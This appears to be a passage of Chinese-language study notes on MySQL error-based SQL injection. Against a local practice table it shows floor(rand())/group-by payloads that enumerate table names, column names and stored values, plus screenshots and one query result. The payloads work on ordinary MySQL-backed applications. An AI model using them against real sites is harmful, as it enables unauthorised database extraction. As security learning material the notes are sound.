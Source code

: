 ![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201212218318.png)

爆破表名

`select * from table3 where id='1' and (select 1 from (select count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.schemata group by x)y);`

`select * from table3 where id='1' and (select 1 from (select count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x7e,floor(rand(0)*2))x from information_schema.schemata group by x)y);`

`select * from table3 where id='1' and (select 1 from (select count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 2,1),0x7e,floor(rand(0)*2))x from information_schema.schemata group by x)y);`

`select * from table3 where id='1' and (select 1 from (select count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 3,1),0x7e,floor(rand(0)*2))x from information_schema.schemata group by x)y);`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201212222673.png)

爆破列名

`select * from table3 where id='1' and (select 1 from (select count(*),concat(0x7e,(select column_name from information_schema.columns where table_name='table3' limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.schemata group by x)y);`

`select * from table3 where id='1' and (select 1 from (select count(*),concat(0x7e,(select column_name from information_schema.columns where table_name='table3' limit 1,1),0x7e,floor(rand(0)*2))x from information_schema.schemata group by x)y);`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201212227064.png)

爆破字段

`select * from table3 where id='1' and (select 1 from (select count(*),concat(0x7e,(select group_concat(id) from table3),0x7e,floor(rand(0)*2))x from information_schema.schemata group by x)y);`

`select * from table3 where id='1' and (select 1 from (select count(*),concat(0x7e,(select mid(group_concat(info),1,100) from table3),0x7e,floor(rand(0)*2))x from information_schema.schemata group by x)y);`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201212338165.png)

```
select column_name,column_type from information_schema.columns where table_name='table3';
+-------------+--------------+
| column_name | column_type  |
+-------------+--------------+
| id          | int(11)      |
| info        | varchar(255) |
+-------------+--------------+
```

---
